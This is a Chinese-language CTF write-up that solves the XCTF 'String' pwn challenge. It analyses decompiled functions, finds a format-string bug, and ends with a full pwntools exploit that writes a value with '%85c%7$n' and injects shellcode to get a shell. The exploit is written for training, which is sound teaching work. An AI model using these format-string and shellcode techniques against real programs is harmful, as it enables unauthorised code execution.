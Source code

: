 ```yaml
---
title: 「攻防世界」Pwn - String WriteUp
date: 2021-12-30
tags: ['CTF', 'Pwn', 'writeup', 'wp']
authors: [nova]
---
```


## 写在开头的碎碎念

捏🐎咋这个Pwn这么难的啊，看WP也看不懂，~~即刻退出Pwn~~

说归说，至少先把这个攻防世界新手区给它干了

经过几天的~~并不系统的三天打鱼两天晒网的~~学习，现在只能说非常有自信。

**String**应该是攻防世界新手区里最有趣也最难的一题了，开整！

<!--truncate-->



## 开整

### 分析
![exeinfope](https://cdn.ova.moe/img/image-20211101153717286.png)

![checksec](https://cdn.ova.moe/img/image-20211101153833049.png)

总而言之先扫一遍， 64bit没有PIE

先看看main

![main](https://cdn.ova.moe/img/image-20211101153942250.png)

v4申请了一个**8字节长**的内存地址，保存的是`68, 85`两个数据，同时它把这两个数据的地址print了出来

跟进到`sub_400D72()`看看

![sub_400D72()](https://cdn.ova.moe/img/image-20211101154214749.png)

让我们输入名字，但是下面对s的长度做了检测所以没办法溢出。

继续看看其他函数，首先是`sub_400A7D()`

![sub_400A7D()](https://cdn.ova.moe/img/image-20211101154750528.png)

> 为了训练英语水平这里顺带打个翻译(?)
>
> > 这是一个有名却分外不同寻常的小酒馆。这里空气清新，大理石铺成的地板也很干净。几乎看不到吵闹的客人，家具也没有被在这个世界的其他酒馆寻常可见的打架斗殴所损坏。装饰极其华丽，看着很适合摆在宫殿里，但在这个城市这却是极其平常的。房间中央是天鹅绒覆盖的椅子和长凳，有很大的橡木桌子围绕。一个大告示固定在一根木条后的北面的墙上。在一个角落你发现了一个壁炉。有两个明显的出口：向东，向上。但奇怪的是，并没有人在那，那么你要向哪里走呢？
>
> 这个背景不能说毫无吸引力只能说翻译了是纯纯浪费时间
>
> ~~我是傻宝~~

所以要我们给出选择：`east`Or`up`

但是看下面的代码我们发现了：你只能选择`east`（选择了`up`之后你就会面临无尽之洞），继续接下来看`sub_400BB9()`

![sub_400BB9()](https://cdn.ova.moe/img/image-20211101173616709.png)

这里提到了`address`，很容易联想到前面我们的`v4`，估计是要在v2和format做文章，但是具体怎么操作还不清楚，继续看`sub_400CA6()`

![sub_400CA6()](https://cdn.ova.moe/img/image-20211101174119436.png)

这里的a1其实就是我们最开始的v4，所以我们需要让`*v4 = v4[1]`

注意下`((void (__fastcall *)(_QWORD))v1)(0LL);`这行，这里把v1转换成了可执行函数（void为返回值类型，__fastcall为协议），在这里我们就可以打shellcode了。

### Payload

接下来就是如何实现的问题了。

先把前面几个固定步骤的写了

![exp_01](https://cdn.ova.moe/img/image-20211102105044906.png)



这里就需要引入格式化字符串的漏洞，[传送门](https://ctf-wiki.org/pwn/linux/user-mode/fmtstr/fmtstr-intro/)

我们需要找一下v4所在的参数位置，传入payload

```python
payload = 'AAAA'+'.%x'*10
```

![addr_info](https://cdn.ova.moe/img/image-20211102105300535.png)

可以看到我们的`41414141`位于栈内第八个位置，而我们刚才写入的v4_addr是位于前一个位置的，此时

就可以构造payload使得*v4=85了

```python
payload = '%85c%7$n'
```

![return_0](https://cdn.ova.moe/img/image-20211102105850378.png)

这时候我们已经满足`sub_400CA6()`中的条件了，那么只需要轻松写入一个shellcode，就可以拿到shell了。

完整payload:

```python
from pwn import *
context(log_level='debug')

sh = process('./1d3c852354df4609bf8e56fe8e9df316')

sh.recvuntil('secret[0] is ')
v4_addr = int(sh.recvuntil('\n')[:-1], 16)
print(v4_addr)

sh.recvuntil('be:')
sh.sendline(b'yuusya')
sh.sendlineafter('east or up?:\n', b'east')
sh.sendlineafter('leave(0)?:\n', b'1')

# *v4 = 85
sh.sendlineafter("address'\n", str(v4_addr))
payload = '%85c%7$n'
sh.sendline(payload)
sh.recvuntil('I hear it')
context(arch='amd64', os='linux')
sh.sendlineafter('SPELL', asm(shellcraft.sh()))
sh.interactive()
```

